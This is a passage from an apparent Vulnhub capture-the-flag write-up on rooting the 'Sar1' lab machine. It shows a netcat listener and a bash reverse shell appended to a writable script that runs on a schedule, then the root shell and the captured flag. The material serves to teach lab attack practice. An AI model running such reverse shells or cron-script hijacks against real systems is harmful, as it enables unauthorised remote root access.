 The bash scripts execute `write.sh`. This file could be written by us as `www-data` user.
So let's add a reverse shell command to the `write.sh` file.


## Privilege escalation
First we should create a listener with netcat.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1]
└─$ nc -lvp 4321
listening on [any] 4321 ...

```
Now we should append the bash script with our reverse shell command.
```bash
$ echo 'sh -i >& /dev/tcp/10.0.2.14/4321 0>&1' >> write.sh
$ cat write.sh
#! /bin/sh
 
sh -i >& /dev/tcp/10.0.2.14/4321 0>&1

```
Now we have to wait a bit before our reverse shell is executed. So let's keep an eye on our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1]
└─$ nc -lvp 4321
listening on [any] 4321 ...
10.0.2.22: inverse host lookup failed: Unknown host
connect to [10.0.2.14] from (UNKNOWN) [10.0.2.22] 43920
sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
# 

```
We pwned the vulnerable machine!
